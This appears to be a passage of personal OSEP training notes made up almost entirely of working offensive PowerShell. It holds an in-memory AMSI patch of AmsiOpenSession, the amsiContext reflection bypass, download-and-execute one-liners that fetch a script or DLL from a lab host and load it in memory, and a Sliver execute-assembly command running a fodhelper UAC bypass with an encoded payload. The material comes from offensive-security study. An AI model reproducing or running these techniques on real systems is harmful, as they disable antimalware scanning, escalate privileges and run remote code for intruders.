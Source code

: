 ```powershell

	return $type.CreateType()
}

[IntPtr]$funcAddr = LookupFunc amsi.dll AmsiOpenSession
$oldProtectionBuffer = 0
$vp=[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll VirtualProtect), (getDelegateType @([IntPtr], [UInt32], [UInt32], [UInt32].MakeByRefType()) ([Bool])))
$vp.Invoke($funcAddr, 3, 0x40, [ref]$oldProtectionBuffer)
$buf = [Byte[]] (0x48, 0x31, 0xC0) 
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $funcAddr, 3)
$vp.Invoke($funcAddr, 3, 0x20, [ref]$oldProtectionBuffer)
```

- Download from web server 
```powershell
 iex (New-Object Net.WebClient).DownloadString('http://192.168.45.176:8000/07AMSIBypass.ps1')
```

#### 7.4.2 Extra Mile

Create a similar AMSI bypass but instead of modifying the code of _AmsiOpenSession_, find a suitable instruction to change in _AmsiScanBuffer_ and implement it from reflective PowerShell.
- https://github.com/rasta-mouse/AmsiScanBufferBypass/blob/main/AmsiBypass.cs
- https://github.com/rogdooley/OSEP-Code-And-Notes/blob/main/Windows/Powershell/ASBB.ps1

### 7.5.2

```powershell
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)

$data = (New-Object System.Net.WebClient).DownloadData('url to dll')

$assem = [System.Reflection.Assembly]::Load($data)
$class = $assem.GetType("<namespace.class>")
$method = $class.GetMethod("<method>")
$method.Invoke(0, $null)
```

- used sliver to start an implant on the Student instance
- forked a UAC Bypass implementation on github and added an Amsi Bypass class to it (https://github.com/rogdooley/SharpBypassUAC)
```shell
execute-assembly /home/roger/Documents/Tools/SharpBypassUAC.exe -b fodhelper -e Y21kIC9jIGM6XHVzZXJzXE9mZnNlY1xEb3dubG9hZHNcU0hZX1BSRVNTUk9PTS5leGU=
```

```powershell
$data = (New-Object System.Net.WebClient).DownloadData('http://192.168.45.x/UACBypass.dll')
$assem = [System.Reflection.Assembly]::Load($data)
$class = $assem.GetType("UACBypass.Class1")
$method = $class.GetMethod("runner")
$method.Invoke(0, $null)
```
